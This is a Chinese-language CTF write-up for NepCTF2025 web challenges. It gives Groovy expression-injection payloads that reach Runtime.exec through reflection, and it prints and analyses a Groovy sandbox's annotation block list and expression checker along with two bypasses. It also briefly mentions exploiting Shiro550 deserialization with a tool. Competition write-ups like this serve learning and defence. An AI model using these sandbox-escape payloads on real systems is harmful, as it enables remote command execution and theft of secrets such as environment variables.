







---
title: "NepCTF2025"
date: 2025-07-25T19:36:11+08:00
summary: "NepCTF2025"
url: "/posts/NepCTF2025/"
categories:
  - "赛题wp"
tags:
  - "NepCTF2025"
draft: false
---

## Web

## easyGooGooVVVY

考的是沙盒环境的Groovy 表达式注入，发现正常的执行命令的类被过滤掉了，后面想起来可以用反射去打

搜到一篇文章：https://www.cnblogs.com/TWX521/p/17916224.html

```java
java.lang.String.class.forName("java.lang.Runtime").getRuntime().exec("whoami").getText()
```

任意一个内置类的原型类都会有forName这个静态方法，那就很好做了



能回显，然后也没过滤什么命令，直接打就行，flag在env环境变量中

```java
java.lang.String.class.forName("java.lang.Runtime").getRuntime().exec("env").getText()
```

## safe_bank(复现)

放在另一篇专门单开的文章里了

## RevengeGooGooVVVY

有两份源码

```java
//phase3purifiler.java

package org.example.expressinject.Test.Groovy;

import groovy.lang.Grab;
import groovy.transform.ASTTest;
import org.codehaus.groovy.ast.*;
import org.codehaus.groovy.classgen.GeneratorContext;
import org.codehaus.groovy.control.CompilationFailedException;
import org.codehaus.groovy.control.CompilationUnit;
import org.codehaus.groovy.control.CompilePhase;
import org.codehaus.groovy.control.SourceUnit;
import org.codehaus.groovy.control.customizers.CompilationCustomizer;

import java.lang.annotation.Annotation;
import java.util.Arrays;
import java.util.Collections;
import java.util.List;

public class Phase3Purifiler extends CompilationCustomizer {
    private static final List<String> BLOCKED_TRANSFORMS = Collections.unmodifiableList(Arrays.asList(
            "ASTTest",
            "Grab",
            "GrabConfig",
            "GrabExclude",
            "GrabResolver",
            "Grapes",
            "AnnotationCollector"
    ));

    public Phase3Purifiler() {
        super(CompilePhase.CONVERSION);
    }

    @Override
    public void call(SourceUnit source, GeneratorContext context, ClassNode classNode) throws CompilationFailedException {
        new RejectASTTransformsVisitor(source).visitClass(classNode);
    }

    @Override
    public void doPhaseOperation(CompilationUnit unit) throws CompilationFailedException {
        super.doPhaseOperation(unit);
    }

    @Override
    public boolean needSortedInput() {
        return super.needSortedInput();
    }


    private static class RejectASTTransformsVisitor extends ClassCodeVisitorSupport {
        private SourceUnit source;

        public RejectASTTransformsVisitor(SourceUnit source) {
            this.source = source;
        }

        @Override
        protected SourceUnit getSourceUnit() {
            return source;
        }

        @Override
        public void visitAnnotations(AnnotatedNode node) {
            for (AnnotationNode an : node.getAnnotations()) {
                for (String blockedAnnotation : BLOCKED_TRANSFORMS) {
                    if (an.getClassNode().getName().contains(blockedAnnotation)) {
                        throw new SecurityException("Annotation " + blockedAnnotation + " cannot be used in the sandbox.");
                    }
                }
            }
        }

        @Override
        public void visitImports(ModuleNode node) {
            if (node != null) {
                for (ImportNode importNode : node.getImports()) {
                    checkImportForBlockedAnnotation(importNode);
                }
                for (ImportNode importStaticNode : node.getStaticImports().values()) {
                    checkImportForBlockedAnnotation(importStaticNode);
                }
            }
        }

    }

    private static void checkImportForBlockedAnnotation(ImportNode node) {
        if (node != null && node.getType() != null) {
            for (String blockedAnnotation : BLOCKED_TRANSFORMS) {
                if (node.getType().getName().contains(blockedAnnotation)) {
                    throw new SecurityException("Annotation " + node.getType().getName() + " cannot be used in the sandbox.");
                }
            }
        }
    }
}


```

这是一个Groovy编译定制器，用于在编译阶段检查和阻止特定的AST转换注解。就是Groovy 源码刚刚被解析成抽象语法树（AST）之后执行的，我们看看这里的注解黑名单

```java
    private static final List<String> BLOCKED_TRANSFORMS = Collections.unmodifiableList(Arrays.asList(
            "ASTTest",
            "Grab",
            "GrabConfig",
            "GrabExclude",
            "GrabResolver",
            "Grapes",
            "AnnotationCollector"
    ));
```

- @Grab, @Grapes 等: 这是 **Groovy Grapes** 依赖管理系统的注解。他们在运行时能**从互联网上动态下载并加载任意的 JAR 包**
- @ASTTest: 用于在编译时对 AST 进行测试和断言，可以被滥用来执行任意代码或修改 AST，。
- @AnnotationCollector: 可以将多个注解“打包”成一个自定义注解，可能被用来隐藏其他被禁止的注解，从而绕过检查。

所以这个代码主要是对一些危险的注解进行一个禁用，防止在AST语法树阶段解析注解的时候会执行自定义注解处理器从而导致一些危险的注解实现代码执行。

我们主要看第二个

```java
//customgroovypurifier.java

package org.example.expressinject.Test.Groovy;

import org.codehaus.groovy.ast.ClassNode;
import org.codehaus.groovy.ast.expr.Expression;
import org.codehaus.groovy.ast.expr.MethodCallExpression;
import org.codehaus.groovy.control.customizers.SecureASTCustomizer;

import java.lang.reflect.Method;
import java.util.*;

public class CustomGroovyPurifier extends SecureASTCustomizer {
    private static final Set<String> STRING_METHODS = new HashSet<>();
    private SecureASTCustomizer secureASTCustomizer = new SecureASTCustomizer();

    public SecureASTCustomizer CreateASTCustomizer() {

        secureASTCustomizer.addExpressionCheckers(expr -> {
            if (expr instanceof MethodCallExpression) {
                MethodCallExpression methodCall = (MethodCallExpression) expr;
                Expression objectExpr = methodCall.getObjectExpression();
                ClassNode type = objectExpr.getType();
                type.getClass();
                String typeName = type.getName();
                String methodName = methodCall.getMethodAsString();
                if (typeName.equals("java.lang.String")) {
                    if (STRING_METHODS.contains(methodName)) {
                        return true;
                    } else {
                        throw new SecurityException("Calling "+methodName+"  on "+ "String is not allowed");
                    }
                }

                if (methodName.equals("execute")) {
                        throw new SecurityException("Calling "+methodName+" on "+ "is not allowed");
                }
            }
            return true;
        });
        secureASTCustomizer.setClosuresAllowed(false);
        return secureASTCustomizer;
    }
    static {
        for (Method method : String.class.getDeclaredMethods()) {
            STRING_METHODS.add(method.getName());
        }
    }

}

```

这里的话在我们逐步分析

可以看到，`secureASTCustomizer.addExpressionCheckers(expr ->`这里的话会将我们沙箱中每个表达式都在此进行处理，那我们重点看里面的处理逻辑

```java
if (expr instanceof MethodCallExpression) {
                MethodCallExpression methodCall = (MethodCallExpression) expr;
                Expression objectExpr = methodCall.getObjectExpression();
                ClassNode type = objectExpr.getType();
                type.getClass();
                String typeName = type.getName();
                String methodName = methodCall.getMethodAsString();
                if (typeName.equals("java.lang.String")) {
                    if (STRING_METHODS.contains(methodName)) {
                        return true;
                    } else {
                        throw new SecurityException("Calling "+methodName+"  on "+ "String is not allowed");
                    }
                }

                if (methodName.equals("execute")) {
                        throw new SecurityException("Calling "+methodName+" on "+ "is not allowed");
                }
            }
            return true;
        
```

外层if语句只检查了函数调用表达式`something.method()`类似的调用，其他类型的表达式都不管

进入if语句后，会获取调用方法的对象类型，调用方法的名字

- 如果我们调用的是String对象的方法，那么就会触发白名单验证，但是这里没有给出来，如果没在白名单里就会抛出异常
- 如果我们调用的方法是execute，就会触发黑名单并抛出错误

上面都没有的话就会返回true

### 方法一:属性访问表达式绕过

其实上面的安全逻辑本来是希望我们只能调用String对象中的方法的，让我们的代码都只能是被当作字符串去调用操作，但是这里明显在外层if语句里存在一个问题，就是这里只检查了函数调用表达式而不管其他类型的表达式



然后可以想到，this.class是属于PropertyExpression属性访问表达式，之前在学习java反序列化的时候就接触过，每个java类运行时都会实例化一个 java.lang.Class 的实例。并且例如我们在脚本中调用方法println的话实际上就是在调用this.println()，所以this.class在脚本中实际上就是在访问该类的对象实例，那么就能间接访问到java.lang.Class 的实例，同时也就绕过第一层if，直接返回true了

```java
this.class.forName("java.lang.Runtime").getRuntime().exec("env").getText()
```

### 方法二:getClass()方法绕过

```java
getClass().forName("java.lang.Runtime").getRuntime().exec("env").getText()
```

为什么这里可以呢，其实也很简单，因为这里并不符合内层的两个if语句，既不是String对象的方法，也不是execute方法，所以也就不会触发异常抛出，同样可以返回true



## JavaSeri

### #shiro550

感觉被资本做局了，从题目上线到比赛结束，我每次打开环境都是跳转127.0.0.1，不知道为啥，赛后拿朋友开的环境直接就打开了。。。



看到一个shiro和remember me，直接猜测是shiro550反序列化，拿工具一把梭吧



然后探测利用链并RCE就行了




